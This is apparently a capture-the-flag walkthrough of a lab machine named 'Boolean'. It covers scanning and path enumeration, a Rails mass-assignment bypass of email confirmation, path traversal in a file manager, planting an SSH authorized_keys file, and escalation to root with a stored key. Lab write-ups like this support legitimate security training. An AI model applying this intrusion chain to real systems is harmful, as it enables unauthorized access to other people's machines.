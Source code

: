 
#### We begin the enumeration process with an nmap scan.
```c

kali@kali:~$ sudo nmap -sV -sC 192.168.120.159
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-04 16:19 WIB
Nmap scan report for 192.168.120.159
Host is up (0.00077s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:54:5e:b5:63:4c:22:40:36:26:be:ae:4d:85:dd:7a (RSA)
|   256 1e:fc:44:32:5b:65:eb:a9:4d:1f:e7:f6:6c:06:1a:13 (ECDSA)
|_  256 96:69:d0:1b:0b:af:96:9c:98:a0:29:98:53:d6:f4:af (ED25519)
80/tcp   open   http
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.0 403 Forbidden
...
| http-title: Boolean
|_Requested resource was http://192.168.120.159/login
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.83 seconds
```

From the output we see ports 22 and 80 open on the target machine.

Starting with port 80 we see the following webpage.


We can proceed by enumerating all possible paths on port 80 using dirb.

```c
kali@kali:~$ dirb http://192.168.120.159
...
URL_BASE: http://192.168.120.159/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.120.159/ ----
+ http://192.168.120.159/404 (CODE:200|SIZE:1722)
+ http://192.168.120.159/500 (CODE:200|SIZE:1635)
+ http://192.168.120.159/filemanager (CODE:302|SIZE:94)
+ http://192.168.120.159/login (CODE:200|SIZE:2394)
+ http://192.168.120.159/register (CODE:200|SIZE:2746)
```

##### Checking the 404 pages reveals the following:


```c
kali@kali:~$ curl http://192.168.120.159/404
...
  .rails-default-error-page div.dialog {
...
  .rails-default-error-page div.dialog > div {
...
  .rails-default-error-page h1 {
...
  .rails-default-error-page div.dialog > p {
...
<body class="rails-default-error-page">
  <!-- This file lives in public/404.html -->
```



We see the framework uses Rails, while the login and register paths return 200 OK responses, the filemanager path stands out.

Judging by the name it is most likely a file upload feature which is almost always worth checking out.

```c
kali@kali:~$ curl -sw '\n' http://192.168.120.159/filemanager
<html><body>You are being <a href="http://192.168.120.159/login">redirected</a>.</body></html>
```

Unfortunately it gets redirected to /login page, we will need to register a valid account.

Notice the footer text describes a type of file storage manager just like the filemanager path we discovered.

### Exploitation

This account confirmation page would appear after logging in.

Any attempt to go to any other pages like /filemanager will always gets redirected to this page.

As we're unable to authenticate as an offsec employee there is no way of receiving the confirmation link sent to the email.

##### _There is an option to edit the email in case of typo, let attempt to use Burp Suite to capture the request and responses._

We receive a JSON response with an email field reflected back on the confirmation page.

If we look closely, there is also a confirmed field with a boolean value false.

This field is most likely an indicator for the backend to tell if the account is already confirmed and to lock it out if it's not.

We've found out earlier what the web framework is used, a google search for Rails common web vulnerability will lead us here specifically the Mass Assignment vulnerability which looks promising.

The URL example is using GET while we deal with POST requests with user[email]=yoman@offsec.com parameters.

While the example was adding an admin attribute, we'll add confirmed instead with a boolean value true which will look like this user[confirmed]=true then send the request and see what happens.

We notice the confirmed value is now set to true, let's attempt to reload the confirmation page again.

After successfully bypassing the confirmation page, the file upload feature appears just like we suspect.

Let's create a test file and then try upload and download it.

```c
kali@kali:~$ echo just a test file > test.txt
kali@kali:~$ ls -l test.txt
-rw-r--r-- 1 kali kali 17 Mar 20 13:39 test.txt
kali@kali:~$ cat test.txt
just a test file
```

Notice the changes in the URL bar when trying to download the file that gets uploaded, the file=test.txt parameter is interesting and usually the first sign to go and try a good ol' dot slash trick like ../../../etc/passwd but unfortunately, this time it won't get us anywhere.

Now if we look closely, there is cwd parameter that does not have values, it kinda looks like the pwd command on linux which used to print our (c)urrent (w)orking directory.

Let's use the same trick on this parameter and see what happens.

We've managed to traverse the path and go up to other directories using cwd parameters.

Since other directories are now browseable, we could potentially enumerate further by reading passwd or other sensitive files. However, there is a directory that stands out right away which is .ssh/, let's try to go into that directory.

Great, we're able to enter the directory which means the web service is likely run by the same user that owns this directory and has full permission.

There is a keys/ directory which screams for private keys but let's do better than that, let's generate RSA private and public key, rename the public key to authorized_keys and then upload it.

```c
kali@kali:~$ ssh-keygen -q -N '' -f sshkey
kali@kali:~$ ls -l sshkey*
-rw------- 1 kali kali 2590 Mar 20 19:33 sshkey
-rw-r--r-- 1 kali kali  563 Mar 20 19:33 sshkey.pub
kali@kali:~$ mv sshkey.pub authorized_keys
```

Awesome! the public key successfully uploaded, let's try logging in through SSH with the private key.

```c
kali@kali:~$ ssh -i sshkey remi@192.168.120.159
The authenticity of host '192.168.120.159 (192.168.120.159)' can't be established.
...
Linux boolean 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
...
remi@boolean:~$
```

Privilege Escalation

After logging in as user remi, there is an alias that can be used to escalate to root easily.

```c
remi@boolean:~$ alias
alias ls='ls --color=auto'
alias root='ssh -l root -i ~/.ssh/keys/root 127.0.0.1'
remi@boolean:~$ root
Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures
Disconnected from 127.0.0.1 port 22
```

Unfortunately the attempt was failed due to Too many authentication failures, a google search for the error message will lead us here.

Apparently this happened because of an SSH agent that would try to login with all identity keys that were added.

```c
remi@boolean:~$ ls -l .ssh/keys/
total 16
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa.1
-rw------- 1 remi remi 1823 Feb 23 20:40 id_rsa.2
-rw------- 1 remi remi 1823 Feb 23 20:40 root
```

Using the IdentitiesOnly option with a boolean value true or yes will force SSH to explicitly use the identity specified in the command line.

```c
remi@boolean:~$ ssh -l root -i ~/.ssh/keys/root 127.0.0.1 -o IdentitiesOnly=true
Linux boolean 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64
...
root@boolean:~# whoami
		root                                                                                                                                                                                                                      
```
